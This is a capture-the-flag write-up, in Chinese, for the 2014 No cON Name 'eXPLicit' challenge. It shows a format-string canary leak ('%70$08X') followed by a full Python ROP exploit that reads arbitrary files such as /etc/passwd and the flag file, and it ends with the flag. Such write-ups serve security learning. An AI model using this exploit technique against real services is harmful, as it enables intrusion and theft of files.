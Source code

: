 # No cON Name CTF Quals 2014: eXPLicit #

> Description: Make me eXPLode! Hint: maybe you want to give a look at the binary... https://ctf.noconname.org/chdownloads/explicit
>
> Url: 88.87.208.163:7070
> 
> Points: 500
> 

執行檔是 ELF 32bit，靜態連結

nc 上去之後，會發現這題是一個猜數字遊戲

```bash
$ nc 88.87.208.163 7070
Welcome to Guess The Number Online!

Pick a number between 0 and 20:
```

測試後可以發現存在 [`Format String`](https://www.owasp.org/index.php/Format_string_attack) 及 [`Buffer Overflow Vulnerability`](http://en.wikipedia.org/wiki/Buffer_overflow)

但存在 `Stack Canary` 防止 `Buffer Overflow`


不過配合 `Format String Vulnerability`，我們可以先 leak 出 canary 的值，就能在不改變 canary 的同時覆蓋 return address

輸入字串 `%70$08X` ，就可以 leak 出 canary 的值

下面是一個簡單的 ROP Payload，可以讀寫任意檔案，雖然我們不知道 flag 的路徑，但透過讀取 `/etc/passwd`，還是可以得到 username，再進一步猜到 flag 路徑: `/home/ch5/flag.txt`

```python
#!/usr/bin/env python
import socket
import telnetlib
from struct import pack

addr_data = 0x080D50C0

addr_open = 0x805EEEA
addr_read = 0x805EF40
addr_write = 0x0805EFAA

pop4 = 0x08048217
pop3 = 0x0805C39E
pop2 = 0x080482f7

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 7070))
#s.connect(('88.87.208.163', 7070))

# recv game message
print s.recv(1024)

# leak canary
s.send("0x%70$08X\n")
r = s.recv(1024)
index = r.index('0x')

canary = int(r[index+2:index+10], 16)
print "canary: ", hex(canary)

# payload
p = 'A' * 256
p += pack("<I", canary) # canary
p += 'A' * 12

# read(4, addr_data, 256)
p += pack("<I", addr_read)
p += pack("<I", pop3)
p += pack("<I", 4)
p += pack("<I", addr_data)
p += pack("<I", 256)

# open(addr_data, 0, 0)
p += pack("<I", addr_open)
p += pack("<I", pop3)
p += pack("<I", addr_data)
p += pack("<I", 0)
p += pack("<I", 0)

# read(5, addr_data, 1000)
p += pack("<I", addr_read)
p += pack("<I", pop3)
p += pack("<I", 5)
p += pack("<I", addr_data)
p += pack("<I", 1000)

# write(4, addr_data, 1000)
p += pack("<I", addr_write)
p += pack("<I", pop3)
p += pack("<I", 4)
p += pack("<I", addr_data)
p += pack("<I", 1000)

p += "\n"

s.send(p)
print s.recv(1024)
print s.recv(1024)

s.send("q\n")
print s.recv(1024)

s.send("/home/ch5/flag.txt")
print s.recv(1024)

print "\nFile Content: "
print s.recv(1024)

print "\n"

# interact
t = telnetlib.Telnet()
t.sock = s
t.interact()

```

Flag: NcN_97740ead1060892a253be8ca33c6364a712b21d
